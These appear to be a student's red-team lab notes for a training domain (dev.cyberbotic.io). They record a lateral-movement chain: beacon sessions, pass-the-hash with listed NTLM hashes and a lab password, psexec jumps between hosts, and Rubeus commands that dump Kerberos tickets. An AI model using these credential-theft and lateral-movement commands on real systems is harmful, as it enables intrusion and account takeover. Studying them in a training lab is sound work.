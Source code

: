 WKSTN-2 (bfarmer)
- By Signing in and out of WKSTN-2 due to beacon 

-> WKSTN-2 (System)
- By running `connect localhost 4444` thanks to listener setup previously

--> WKSTN-2 (System * DEV\jking)
- pth as jking to become part of administrators/rdp group
- `pth DEV\jking 59fc0f884922b4ce376051134c71e22c`
- jump to sql-2.dev.cyberbotic.io server using psexec as jking

--> sql-2.dev.cyberbotic.io (System)
- `jump psexec64 sql-2.dev.cyberbotic.io smb`

---> dc-2 (SYSTEM)
`reference NTLM Relaying for complete notes on this method`

-->  WKSTN-1 (SYstem\ nlamb)
- `jump psexec64 wkstn-1.dev.cyberbotic smb`
- `pth DEV\nlamb 2e8a408a8aec852ef2e458b938b8c071 `

nlamb credentials: F3rrari
nlamb: ntlm: 2e8a408a8aec852ef2e458b938b8c071

![[GENERAL FLOW THUS FAR.png]]

- in order to dump tgt's
```bash
# run this command to get LUID's of USER's and services to then dump TGT's
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# command to dump specific luids - TGT's are too long to be able to copy from vm to vm so have to run this everytime

#jking TGT is on WKSTN-2
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x57ccc /nowrap

TGT:
doIFXXXXXXXXXXXXXXXXXXXXXXXXX

#sql2 user
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x5bcb3 /nowrap

doIFp


```